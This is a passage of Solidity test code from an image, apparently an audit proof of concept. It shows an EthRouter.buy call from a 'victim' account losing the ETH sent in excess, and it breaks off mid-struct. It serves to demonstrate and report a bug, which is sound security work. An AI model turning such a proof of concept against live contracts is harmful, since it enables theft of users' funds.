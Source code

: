 ```solidity
        // Get needed data for buy and logs.
        (EthRouter.Buy[] memory buys, uint256 royalty) = _getBuysStructArray();

        // Victim balance before buy order.
        uint256 victimBalanceBefore = victim.balance;

        // Purchase amount = baseTokenAmout + royalty -> royalty already included in setup
        uint256 purchaseAmount = buys[0].baseTokenAmount;

        // Expected balance of victim after purchase.
        uint256 expectedVictimBalanceAfter = victimBalanceBefore -
            purchaseAmount;

        // Execute the buy from the victim account.
        vm.prank(victim);
        ethRouter.buy{value: buys[0].baseTokenAmount + EXCESS}(buys, 0, false);

        // Calculate the amount of stolen excess ETH.
        uint256 excessAmountLost = expectedVictimBalanceAfter - victim.balance;

        _logState(" After exploit");
        _logExtraData(buys[0].baseTokenAmount, royalty, excessAmountLost);

        // Test case that excess_amount_lost is not 0 and is equal to the excess in ethRouter.buy()
        assertEq(excessAmountLost, EXCESS, "Excess eth is not sent");
    }

    // ======================================= Helpers ======================================= //

    /**
     * @return buys The array expected from EthRouter.buy to execute the buy operation.
     * @return royalty The calculated royalty amount that will be paid to the receiver.
     */
    function _getBuysStructArray()
        internal
        view
        returns (EthRouter.Buy[] memory buys, uint256 royalty)
    {
        // Add nft id.
        uint256[] memory tokenIds = new uint256[](1);
        tokenIds[0] = tokenId;

        // Calculate total amount to be paid.
        (uint256 baseTokenAmount, uint256 fee1, uint256 fee2) = privatePool
            .buyQuote(tokenIds.length * 1e18);

        // NFT's sale price is excluding the fees.
        uint256 salePrice = baseTokenAmount - fee1 - fee2;

        // Retrieve the royalty that will be paid.
        (, royalty) = nft.royaltyInfo(tokenId, salePrice);

        // The total input ETH amount.
        baseTokenAmount = baseTokenAmount + royalty;

        // Return the needed argument struct array.
        buys = new EthRouter.Buy[](1);
        buys[0] = EthRouter.Buy({
            pool: payable(address(privatePool)),
            nft: address(nft),
            tokenIds: tokenIds,
            tokenWeights: new uint256[](0),
            proof: PrivatePool.MerkleMultiProof(
```